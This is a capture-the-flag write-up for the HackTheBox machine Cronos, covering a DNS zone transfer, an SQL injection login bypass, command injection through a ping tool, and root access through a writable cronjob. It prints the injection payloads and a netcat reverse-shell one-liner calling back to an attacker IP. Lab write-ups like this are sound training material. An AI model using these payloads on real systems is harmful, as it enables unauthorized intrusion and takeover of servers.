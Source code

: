 ```yaml
---
layout: post
title: HackTheBox&#58; Cronos
description: Writeup for HTB box Cronos.
category: HackTheBox
---
```


### Introduction

Cronos is a Linux box, difficulty Medium on HTB.

The box is quite easy.
For user, we use DNS Zone Transfer to find an admin subdomain with a login panel.
After using SQL Injection to gain access, we can do command injection to get the shell.
For root, we detect and inject command to a root cronjob.

### Initial Scan

![Cronos-1](/resources/Cronos-1.png)

### User: DNS Zone Transfer, SQL Injection and Command Injection

Looking from nmap scan result, we see DNS service open on port 53 but with TCP instead of UDP.
This might suggest the DNS service allows [DNS Zone Transfer](https://en.wikipedia.org/wiki/DNS_zone_transfer).
We can test this with `dig`.
``` bash
dig axfr cronos.htb @cronos.htb
```
And we get some hits back: A record for cronos.htb, www.cronos.htb, ns1.cronos.htb and admin.cronos.htb.
![Cronos-2](/resources/Cronos-2.png)

Checking admin.cronos.htb, we find a simple login page.
First try with SQL Injection using username `admin' #` and any passwords gives us access to the Net Tool v0.1 panel.

There are 2 options: traceroute and ping.
Looiking at the source code we can see value for `command` sending over POST is either `traceroute` or `ping -c 1`.
This suggests this value is later executed as bash command.
We can test for command injection with `;`
```bash
(ping -c 1) 10.10.14.25; id
```
![Cronos-3](/resources/Cronos-3.png)

Indeed we get a RCE and we can change the payload into a reverse shell as wwww-data and we can read user.txt.
```bash
(ping -c 1) 10.10.14.25; rm /tmp/k4; mkfifo /tmp/k4; cat /tmp/k4|/bin/sh -i 2>&1|nc 10.10.14.25 1337 > /tmp/k4
```

### Privesc: Root PHP Cronjob

Just like the name suggests, the machine might be running a root cronjob.
Using [pspy](https://github.com/DominicBreuker/pspy), we can detect the cronjob being run every minute.
```bash
php /var/www/laravel/artisan schedule:run
/bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
![Cronos-4](/resources/Cronos-4.png)

We have owner read/write permission on `/var/www/laravel/artisan`, which means we just need to inject a PHP reverse shell payload.
Wait 1 minute to get root shell and we can read root.txt.
```bash
rm /tmp/k5; mkfifo /tmp/k5; cat /tmp/k5|/bin/sh -i 2>&1|nc 10.10.14.25 1337 > /tmp/k5
```
![Cronos-5](/resources/Cronos-5.png)
